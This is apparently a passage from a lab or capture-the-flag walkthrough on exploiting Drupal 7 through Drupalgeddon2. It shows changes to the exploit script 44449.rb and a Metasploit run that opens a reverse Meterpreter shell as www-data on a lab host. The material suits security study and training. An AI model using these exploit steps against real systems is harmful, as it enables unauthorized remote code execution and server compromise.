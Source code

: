 Running this script reveals that that Drupal major version is 7.

```bash
$ python3 get_drupal_version.py http://example.net/jabc/
7
```

Armed with this knowledge, we can further modify `44449.rb` to include the Drupal root URL - in our case `/jabc/` - in the list of `url`s.

```ruby
...
# Possible URLs
url = [
  $target + "CHANGELOG.txt",
  $target + "core/CHANGELOG.txt",
  $target + "includes/bootstrap.inc",
  $target + "core/includes/bootstrap.inc",
  $target
]
...
```

And now, even if none of the original URLs existed, we have additional location in which to check for the version. All we need to do is add another regex.

```ruby
...
    $drupalverion = response.body.match(/Drupal ([0-9])/).to_s.slice(/Drupal ([0-9])/, 1).to_s.strip if $drupalverion.empty?
...
```
(I verified this by removing all of the original URLs and re-running the exploit).


### Solution 3
The Metasploit Drupalgeddon2 module (`exploit/unix/webapp/drupal_drupalgeddon2`) works out-of-the-box. :)

```bash
msf > use exploit/unix/webapp/drupal_drupalgeddon2
msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.56.11
RHOST => 192.168.56.11
msf exploit(unix/webapp/drupal_drupalgeddon2) > set TARGETURI /jabc/
TARGETURI => /jabc/
msf exploit(unix/webapp/drupal_drupalgeddon2) > set VHOST example.net
VHOST => example.net
msf exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.56.2:4444 
[*] Drupal 7 targeted at http://192.168.56.11/jabc/
[-] Could not determine Drupal patch level
[*] Sending stage (37775 bytes) to 192.168.56.11
[*] Meterpreter session 1 opened (192.168.56.2:4444 -> 192.168.56.11:48207) at 2018-08-10 19:33:39 -0400

meterpreter > getuid
Server username: www-data (33)
```
